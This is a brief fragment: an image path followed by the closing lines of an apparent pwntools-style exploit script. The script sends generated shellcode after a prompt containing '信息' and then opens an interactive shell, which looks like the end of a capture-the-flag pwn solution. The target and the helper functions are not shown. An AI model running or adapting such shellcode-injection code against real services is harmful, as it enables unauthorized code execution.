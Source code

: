 ```py

    payload = shellcode()

    msg = '信息'.encode('utf-8') +b'\x0a' +b'\x0a'

    sla(msg, payload)

    interactive()

if __name__ == '__main__':
  exploit()
```
